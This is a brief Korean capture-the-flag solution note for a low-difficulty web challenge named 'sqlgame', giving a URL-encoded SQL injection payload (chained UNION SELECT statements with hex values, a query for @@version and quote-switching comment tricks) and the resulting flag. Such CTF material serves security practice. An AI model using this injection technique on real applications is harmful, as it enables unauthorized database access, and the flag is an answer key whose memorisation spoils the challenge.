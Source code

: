 이름 : 문시우
문제명 : sqlgame
난이도 : 하
분야 : 웹

payload : ?vuln=1%20Union%20select%200x303037,1,1%23%27%20Union%20select%201,0x62616e67,@@%60version%60%23"%20Union%20select%201,2,%27007%27%23

flag : flag{good_good_very_good}